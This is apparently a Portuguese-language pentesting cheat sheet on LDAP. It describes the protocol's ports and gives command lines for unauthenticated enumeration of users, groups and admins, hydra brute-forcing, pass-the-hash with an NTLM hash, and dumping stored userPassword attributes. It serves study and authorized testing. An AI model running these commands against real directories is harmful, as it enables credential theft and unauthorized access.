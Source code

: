 ## LDAP(Lightweight Directory Access Protocol)
É um protocolo padrão da indústria para que aplicativos e sistemas acessem e manter informações distribuídas em um diretório, geralmente usado para autenticação e gerenciamento de identidade em sistemas e aplicativos.
Simplificando, ele permite que aplicativos consultem informações sobre usuários, grupos e outros recursos em um servidor de diretório, como o Active Directory.
 - Porta 389(LDAP) Comunicação não encripytada.
 - Porta 636(LDAPS) Comunicação usando SSL/TLS.
 - Portas 3268, 3269 Usadas para consultas do catalago global do AD

O ldap é um protocolo para busca de dados usando o padrão X.500(arvore de diretórios) + o TCP/IP. Com isso podemos armazenar informações dos usuários e usar ele como um serviço para autenticação.

Uma má configuração do serviço pode levar a exploração de dados sensíveis, escalação de privilégios e técnicas de exploração
## Enumeração

Entender as consultas LDAP é crucial para enumerar usuários, grupos e configurações de domínio.

#### Enumeração sem credenciais
```
nmap -p 389,636,3268,3269 --script ldap-rootdse <IP>
```
#### **ldapsearch**
É uma ferramenta de linha de comandos disponível nos fornecedores de servidor LDAP  que você pode usar ara verificar informações LDAP.

```
ldapsearch -x -H ldap://<IP> -s #retorna a raiz DN(DC=exemple,DC=com)
ldapsearch -x -H ldap://<IP> -b "DC=exemple,DC=com" "(objectClass=person)" cn #usernames para força-bruta
```
Extraindo usuários e informações de grupos:
```
Listar todos os Usuários:
ldapsearch -x -H ldap://<target-ip> -b "DC=example,DC=com" "(objectClass=user)" cn sAMAccountName
Listar grupos
ldapsearch -x -H ldap://<target-ip> -b "DC=example,DC=com" "(objectClass=group)" cn member
Listar Admins
ldapsearch -x -H ldap://<target-ip> -b "DC=example,DC=com" "(&(objectClass=user)(adminCount=1))" cn sAMAccountName
```

### Explorando uma configuração fraca
Se a autenticação simples estiver habilitada podemos fazer um ataque de força bruta:
```
hydra -L user.txt -P password.txt ldap://<IP>
```

#### LDAP Pass-the-Hash Attack
Se o NTLM hashes estiver disponível, podemos tentar fazer o pass-the-hash para autenticar, isso permite fazer consultas ao LDAP usando apenas o hash.
```
impacket-ldapdumper -u 'example.com/user' -p '<NTLM-Hash>' -dc-ip <IP>
```

#### Extraindo senhas do LDAP
Alguns desenvolvedores armazenam senhas no LDAP uma má pratica,
```
ldapsearch -x -H ldap://<IP> -b "DC=example,DC=com" "(&(objectClass=*)(userPassword=*))" userPassword 
```

